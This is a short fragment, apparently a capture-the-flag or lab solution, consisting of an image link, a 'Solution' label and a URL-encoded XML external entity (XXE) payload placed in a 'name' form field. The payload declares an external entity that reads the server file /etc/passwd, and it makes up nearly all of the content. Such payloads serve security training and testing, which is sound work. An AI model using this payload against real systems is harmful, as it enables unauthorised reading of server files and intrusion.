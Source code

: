Solution



name=<!DOCTYPE+foo+[++
+++<!ELEMENT+foo+ANY+>
+++<!ENTITY+xxe+SYSTEM+"file%3a///etc/passwd"+>]><name>%26xxe%3b</name>
